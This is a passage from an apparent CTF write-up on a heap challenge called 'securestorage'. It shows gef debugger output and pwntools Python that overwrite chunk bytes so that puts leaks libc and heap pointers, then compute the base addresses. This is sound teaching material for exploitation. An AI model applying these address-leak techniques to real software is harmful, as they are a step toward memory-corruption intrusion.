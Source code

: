 As we can see in our newly allocated chunk, after **8 bytes**, there is a pointer to the **libc**, and after **16 bytes**, there is a pointer to the **heap**, which we can use to calculate the base addresses for both the **heap** and **libc**.

```console
gef➤  vmmap heap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x000055e0e93da000 0x000055e0e941d000 0x0000000000000000 rw- [heap]
gef➤  p/x 0x000055e0e93da400-0x000055e0e93da000
$1 = 0x400
gef➤  vmmap libc
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00007f514c000000 0x00007f514c028000 0x0000000000000000 r-- ./libc.so.6
...
gef➤  p/x 0x00007f514c204100-0x00007f514c000000
$2 = 0x204100
```

And when it comes to leaking these addresses, we can use the `show` function. However, since it uses `puts`, which will stop when encountering a null byte, we first need to overwrite the part before the addresses with non-zero values.

First, we leak the **libc** address:

```py
...
edit(2, b"A"*8)
show(2)
r.interactive()
```

As we can see, this works. However, there is one small problem: we also need to overwrite the last bytes of the addresses to leak since they are null bytes. But we can fix this easily by accounting for it when parsing the leaked addresses, as follows:

![Securestorage Address Leak](securestorage_address_leak.webp){: width="1200" height="300" }

```py
...
libc_leak = u64(r.recvuntil(b"\n[1]")[-9:-4].ljust(8, b"\x00")) * 256 # to account for overwritten null byte
print(f"[+] Libc Leak: {hex(libc_leak)}")
libc_base = libc_leak - 0x204100
print(f"[+] Libc Base : {hex(libc_base)}")
edit(2, b"A"*16)
```

Next, we can use the same method to leak the **heap** address, parse the leak, and calculate the **heap** base address.

```py
...
edit(2, b"A"*16)
show(2)
heap_leak = u64(r.recvuntil(b"\n[1]")[-9:-4].ljust(8, b"\x00")) * 256 # to account for overwritten null byte
print(f"[+] Heap Leak: {hex(heap_leak)}")
heap_base = heap_leak - 0x400
print(f"[+] Heap Base : {hex(heap_base)}")
r.interactive()
```
